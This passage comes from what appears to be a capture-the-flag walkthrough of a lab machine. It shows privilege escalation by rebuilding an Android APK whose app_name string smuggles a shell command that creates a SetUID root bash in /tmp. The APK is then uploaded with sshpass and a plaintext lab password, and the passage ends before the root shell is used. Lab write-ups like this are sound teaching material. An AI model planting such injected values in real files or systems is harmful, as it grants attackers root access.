 
I’ll verify that I can rebuild that with no changes, just to make sure my
system is working:

    
    
    oxdf@hacky$ java -jar apktool_2.6.1.jar b -f decomp/ -o test.apk
    I: Using Apktool 2.6.1
    I: Smaling smali folder into classes.dex...
    I: Building resources...
    I: Building apk file...
    I: Copying unknown files/dir...
    I: Built apk...
    oxdf@hacky$ rm test.apk 
    

I was getting errors at one point that kind of looked like [this
issue](https://github.com/iBotPeaches/Apktool/issues/1842), and were fixed by
running `apktool empty-framework-dir --force` as suggested there.

I’ll open `decomp/res/values/strings.xml` and edit the `app_name`:

    
    
        <string name="app_name">Catch$(cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf)</string>
    

This will copy `bash` into `/tmp` and make it SetUID to run as root.

Build it back up:

    
    
    oxdf@hacky$ java -jar apktool_2.6.1.jar b -f decomp/ -o modified.apk
    I: Using Apktool 2.6.1
    I: Smaling smali folder into classes.dex...
    I: Building resources...
    I: Building apk file...
    I: Copying unknown files/dir...
    I: Built apk...
    

#### Upload

I’ll upload this to Catch using `scp`, right into the dropbox directory:

    
    
    oxdf@hacky$ sshpass -p 's2#4Fg0_%3!' scp modified.apk will@10.10.11.150:/opt/mdm/apk_bin/
    

#### Shell

Once a minute rolls over, I’ll check, and there’s a SetUID `0xdf` file in
`/tmp`:

    
    
    will@catch:/opt/mdm$ ls -l /tmp/0xdf
    -rwsrwxrwx 1 root root 1183448 Jun 29 20:16 /tmp/0xdf
    

Running it (with `-p` to not drop privs) gives a shell with euid of root:
